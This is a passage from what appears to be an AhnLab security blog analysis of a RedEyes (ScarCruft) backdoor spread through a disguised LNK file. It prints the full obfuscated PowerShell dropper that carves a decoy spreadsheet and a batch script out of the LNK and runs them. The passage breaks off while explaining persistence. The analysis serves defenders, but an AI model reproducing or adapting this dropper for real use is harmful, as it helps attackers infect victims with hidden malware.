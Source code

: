 










 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By yeeun  , September 6, 2023 

Distribution of Backdoor via Malicious LNK: RedEyes (ScarCruft) 
AhnLab Security Emergency response Center (ASEC) has confirmed that malware [1], which was previously distributed in CHM format, is now being distributed in LNK format. This malware executes additional scripts located at a specific URL through the mshta process. It then receives commands from the threat actor’s server to carry out additional malicious behaviors.
The threat actor has been distributing the confirmed LNK file on a regular website by uploading it alongside malware within a compressed file.

Figure 1. Malware found at hxxp://a*****fo.co.kr/member/
The malicious LNK file has been uploaded under the file name ‘REPORT.ZIP.’ Similar to the malware identified in <RokRAT Malware Distributed Through LNK Files (*.lnk): RedEyes (ScarCruft)> [2], this file has an LNK that contains normal Excel document data and malicious script code.

Figure 2. Compressed file containing malicious LNK file

Figure 3. Additional file data included inside the LNK
Therefore, when the ‘Status Survey Table.xlsx.lnk’ file is executed, it creates and executes a normal document called ‘Status Survey Table.xlsx’ and the malicious script ‘PMmVvG56FLC9y.bat’ in the %Temp% folder through PowerShell commands.
/c powershell -windowstyle hidden $pEbjEn = Get-Location;if($pEbjEn -Match 'System32' -or $pEbjEn -Match 'Program Files') {$pEbjEn = '%temp%'};$lyHWPSj = Get-ChildItem -Path $pEbjEn -Recurse *.lnk ^| where-object {$_.length -eq 0x18C0000} ^| Select-Object -ExpandProperty FullName;if($lyHWPSj.GetType() -Match 'Object'){$lyHWPSj = $lyHWPSj[0];};$lyHWPSj;$C5ytw = gc $lyHWPSj -Encoding Byte -TotalCount 74240 -ReadCount 74240;$tyxkEP = '%temp%\Status Survey Table.xlsx';sc $tyxkEP ([byte[]]($C5ytw ^| select -Skip 62464)) -Encoding Byte; ^& $tyxkEP;$Cbe1yj = gc $lyHWPSj -Encoding Byte -TotalCount 79888 -ReadCount 79888;$WH9lSPHOFI = '%temp%\PMmVvG56FLC9y.bat';sc $WH9lSPHOFI ([byte[]]($Cbe1yj ^| select -Skip 74342)) -Encoding Byte;^& %windir%\SysWOW64\cmd.exe /c $WH9lSPHOFI;
‘Status Survey Table.xlsx’ appears as a normal Excel document and impersonates a Korean public organization in the following manner.

Figure 4. Contents and properties of ‘Status Survey Table.xlsx’
When the concurrently generated ‘PMmVvG56FLC9y.bat’ file is executed, it is copied into the ‘%appdata%\Microsoft\Protect\’ folder as ‘UserProfileSafeBackup.bat’. Afterward, it is registered in the following registry to ensure continuous execution of the BAT file.
